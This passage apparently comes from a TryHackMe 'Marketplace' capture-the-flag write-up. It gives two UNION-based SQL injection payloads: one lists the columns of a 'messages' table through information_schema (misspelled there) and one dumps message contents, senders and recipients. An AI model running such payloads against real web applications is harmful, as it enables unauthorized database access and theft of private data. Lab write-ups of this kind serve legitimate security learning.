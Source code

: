 ![tables](/assets/img/tryhackme/marketplace/tables.png)

There are two important tables, one is `messages` and the other is `users`.
First I look at the `messages table`.

```
? user=0 UNION SELECT 1,group_concat(column_name),3,4 FROM information_scheam.columns WHERE table_name='messages'-- 
```

![column-messages](/assets/img/tryhackme/marketplace/column-messages.png)

Let's dump the `contents of the messages`.

```
? user=0 UNION SELECT 1,group_concat(id,'~~',message_content,'~~',user_from,'~~',user_to),3,4 FROM messages-- 
```
